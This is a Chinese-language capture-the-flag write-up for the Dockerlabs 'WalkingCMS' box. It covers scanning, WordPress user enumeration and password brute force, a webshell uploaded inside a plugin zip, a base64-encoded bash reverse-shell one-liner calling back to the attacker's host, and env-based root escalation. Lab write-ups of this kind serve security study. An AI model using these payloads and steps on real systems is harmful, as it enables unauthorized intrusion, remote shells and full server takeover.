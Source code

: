 ```yaml
---
title: "Dockerlabs-WalkingCMS"
date: 2025-02-22
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/walkingcms  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 09:39 CST
Nmap scan report for 172.17.0.2
Host is up (0.000090s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.87 seconds
```

进入网页后是**apache**的默认页面

![](./images/image-67.png)

## Dirsearch

```
[root@kali] /home/kali/walkingcms  
❯ dirsearch -u 172.17.0.2 -t 50                                                                
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/walkingcms/reports/_172.17.0.2/_25-02-22_09-42-07.txt

Target: http://172.17.0.2/

[09:42:07] Starting:                                                                                                                                        
[09:42:08] 403 - 275B  - /.ht_wsr.txt                                      
[09:42:08] 403 - 275B  - /.htaccess.sample
[09:42:08] 403 - 275B  - /.htaccess.orig                                   
[09:42:08] 403 - 275B  - /.htaccess.bak1                                   
[09:42:08] 403 - 275B  - /.htaccess_extra                                  
[09:42:08] 403 - 275B  - /.htaccess_orig
[09:42:08] 403 - 275B  - /.htaccess_sc
[09:42:08] 403 - 275B  - /.htaccess.save
[09:42:08] 403 - 275B  - /.htaccessOLD2                                    
[09:42:08] 403 - 275B  - /.htm
[09:42:08] 403 - 275B  - /.html
[09:42:08] 403 - 275B  - /.htaccessBAK                                     
[09:42:08] 403 - 275B  - /.htpasswd_test
[09:42:08] 403 - 275B  - /.htaccessOLD
[09:42:08] 403 - 275B  - /.htpasswds                                       
[09:42:08] 403 - 275B  - /.httr-oauth                                      
[09:42:09] 403 - 275B  - /.php                                             
[09:42:28] 403 - 275B  - /server-status                                    
[09:42:28] 403 - 275B  - /server-status/
[09:42:35] 200 - 11KB - /wordpress/                                        
[09:42:38] 200 - 3KB - /wordpress/wp-login.php

Task Completed                       
```

发现存在**wordpress**目录

## WPscan

```
[root@kali] /home/kali/walkingcms  
❯ wpscan --url "http://172.17.0.2/wordpress/" -e
```

![](./images/image-68.png)

存在用户名为：**mario**，针对其进行密码爆破

```
[root@kali] /home/kali/walkingcms  
❯ wpscan --url "http://172.17.0.2/wordpress/" -U username.txt -P /usr/share/wordlists/rockyou.txt 
```

![](./images/image-69.png)

得到密码为：**love**，登录进入后台

## RevShell

这里我的思路是上传一个**Webshell**管理工具

先到**wordpress**的插件市场里随便下载一个

- [健康检查与故障排除 – WordPress 插件 | WordPress.org China 简体中文](https://cn.wordpress.org/plugins/health-check/)

然后将**webshell.php**插入压缩包再上传

![](./images/image-70.png)

访问下面的**URL**路径即可进行命令执行

```
http://172.17.0.2/wordpress/wp-content/plugins/health-check/webshell.php?cmd=
```

这里我使用的是**Base64**编码后再反弹，避免特殊字符的影响

```
echo%20%22YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS8xMDAgMD4mMQ==%22%7Cbase64%20-d%7Cbash
```

![](./images/image-71.png)

在**/home**目录下没有发现其他用户

查看`wp-config.php`能看到有数据库的用户名和密码

![](./images/image-72.png)

```
/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', 't9sH76gpQ82UFeZ3GXZS' );
```

不过里面没有东西。

上传**linpeas**查看详细信息

![](./images/image-73.png)

发现存在**env**的命令

- [env | GTFOBins](https://gtfobins.github.io/gtfobins/env/)

![](./images/image-74.png)

直接提升到**root**权限

## Summary

`www-data`：**WPscan**可以扫描出**wordpress**存在的用户名，再对密码进行爆破，成功登录后台。通过上传插件的方式反弹**shell**，灵感来源于[【靶机实战】WordPress – 花咲雨町 靶机解题思路 - 极核GetShell](https://get-shell.com/6494.html)

`Root`：通过**linpeas**输出发现可以通过**env**提权。
